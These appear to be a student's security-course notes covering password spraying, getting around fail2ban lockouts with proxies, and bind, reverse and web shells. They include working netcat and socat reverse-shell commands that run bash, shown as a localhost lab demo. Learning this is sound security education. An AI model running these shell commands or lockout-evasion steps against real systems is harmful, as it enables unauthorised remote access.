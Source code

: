 # Varia

## Password spraying
Try to login with different users and same password (instead of same user different pw)
Tool fail2ban will lock IP after too many failed login attempts. (can be bypassed by changing IP via tools as proxychain or toor etc.)
https://www.youtube.com/watch?v=vkeb0pWYDr8


## Shells
Allows code execution over a network (Remote code execution: RCE). What every hacker wants.
How to achieve remote code execution: Command injection, File upload (php file to a webserver), SQL injection, Buffer overflow etc.

Diagramms see pdf

**Bind Shell**


1. Server: Shell is listening on a port
    - usually shell is started via an exploit by attacker (as it is doubtful that it is started deliberatly)
2. Attacker access port: promt/command line is provided
3. Attacker sends commands which are executed 

*Remark: since the attacker connects to the shell - server is listening - this type of shell is blocked by the firewall*

**Reverse Shell**
Similar to "bind shell" but here attacker is listening and server initiates connection. This us usually allowed by firewalls.

Simple Netcat Reverse Shell (via 2 open terminals)
1. Terminal 1 (Attacker): `nc -l -v -p 8080` -> starts listening on port 8080
2. Terminal 2 (Victim): `cd tmp` `nc.traditional -e /bin/bash localhost 8080` -> connectts to terminal 1 of attacker
3. Terminal 1 (Attacker): `pwd`-> will show tmp folder from Terminal 2

Simple Socat Reverse Shell (via 2 open terminals)
1. Terminal 1 (Attacker): `socat file:`tty`,raw,echo=0 TCP-L:8080` -> starts listening on port 8080
2. Terminal 2 (Victim): `cd tmp` `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080` -> connectts to terminal 1 of attacker
3. Terminal 1 (Attacker): `pwd`-> will show tmp folder from Terminal 2

*To create a shelf using metasploit see lab task (or also Metasploit.md)*

**Web Shell**
A web shell is a shell-like interface that enables a web server to be remotely accessed. The user (attacker) can enter commands via browser and commands are sent via http Get (or post) requests.

For this to happen, the webserver has to host the web shell (which might be done by an exploit: for example via a file upload "webshell.php" that is then executed, or sql injection)
*Remark: probably not so easy to detect by firewalls as commands are normal http requests which are usually allowed* 
